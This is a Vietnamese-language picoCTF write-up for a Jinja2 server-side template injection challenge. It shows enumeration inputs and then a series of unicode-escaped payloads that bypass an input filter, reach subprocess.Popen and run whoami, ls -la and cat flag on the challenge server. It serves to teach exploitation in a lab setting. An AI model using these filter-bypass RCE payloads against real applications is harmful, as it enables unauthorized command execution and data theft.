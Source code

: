 ![alt text](image.png)

## 1. Enumeration
Trang chủ 
![alt text](image-1.png)
Với đầu vào là

```bash
{{7*7}}
```
Ta thu được 
```bash
49
```

![alt text](image-2.png)
Với đầu vào là 

```bash
{{request}}
```

Ta thu được kết quả 

```bash
<Request 'http://shape-facility.picoctf.net:64084/announce' [POST]>
```
![alt text](image-3.png)

&rarr; **Khả năng là lỗ hổng SSTI trong framework Jinja2**

## 2. Exploit
Ta thử payload 
```bash 
{{ ''.__class__.__mro__ }}
```
![alt text](image-4.png)

Câu lệnh không được thực thi vì đã  lọc đầu vào .
Ta sử dụng Unicode encoding và duyệt qua vòng lặp để lấy được danh sách các class cha 

```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {{ item }}
{% endfor %}
```

![alt text](image-5.png)

Ta trỏ đến class object bằng cách  duyệt qua từng lớp trong orm để  bypass bộ lọc chặn truy cập trực tiếp vào đối tượng  
```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {{ item }}
    {% endif %}
{% endfor %}
```
![alt text](image-6.png)

Làm tương tự ta  liệt kê được  các lớp con  object bằng cách duyệt qua từng lớp trong lớp cha object để  bypass bộ lọc chặn truy cập trực tiếp vào đối tượng 

```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {{ item |attr("\u005f\u005fsubclasses\u005f\u005f")() }}
    {% endif %}
{% endfor %}
```

![alt text](image-7.png)

Tìm được có tồn tài class subprocess.Popen ( class có khả năng thực thi hệ thống )

![alt text](image-8.png)

Ta trỏ đến lớp subprocess.Popen thông qua payload này :
```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {% for cls in item |attr("\u005f\u005fsubclasses\u005f\u005f")() %}
            {% if "Popen" in cls|string %}
                {{ cls }}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

![alt text](image-9.png)

Ta sử dụng class subprocess.Popen để thực thi câu lệnh whoami 

```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {% for cls in item |attr("\u005f\u005fsubclasses\u005f\u005f")() %}
            {% if "Popen" in cls|string %}
                {{ cls(["whoami"],shell=True, stdout=-1, stderr=-1) |attr("\u0063\u006f\u006d\u006d\u0075\u006e\u0069\u0063\u0061\u0074\u0065")() }}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

Kết quả trả về câu lệnh whoami thực thi thành công .

![alt text](image-10.png)

Ta tiếp tục thực thi câu lệnh ls -la để liệt kê các thư mục hiện tại 
```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {% for cls in item |attr("\u005f\u005fsubclasses\u005f\u005f")() %}
            {% if "Popen" in cls|string %}
                {{ cls(["ls -la"],shell=True, stdout=-1, stderr=-1) |attr("\u0063\u006f\u006d\u006d\u0075\u006e\u0069\u0063\u0061\u0074\u0065")() }}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

![alt text](image-11.png)

Tìm được file flag ta đọc thực thi lệnh cat flag để đọc file 
```bash
{% for item in 7 |attr("\u005f\u005fclass\u005f\u005f") |attr("\u005f\u005fmro\u005f\u005f") %}
    {% if "object" in item|string %}
        {% for cls in item |attr("\u005f\u005fsubclasses\u005f\u005f")() %}
            {% if "Popen" in cls|string %}
                {{ cls(["cat flag"],shell=True, stdout=-1, stderr=-1) |attr("\u0063\u006f\u006d\u006d\u0075\u006e\u0069\u0063\u0061\u0074\u0065")() }}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```
![alt text](image-12.png)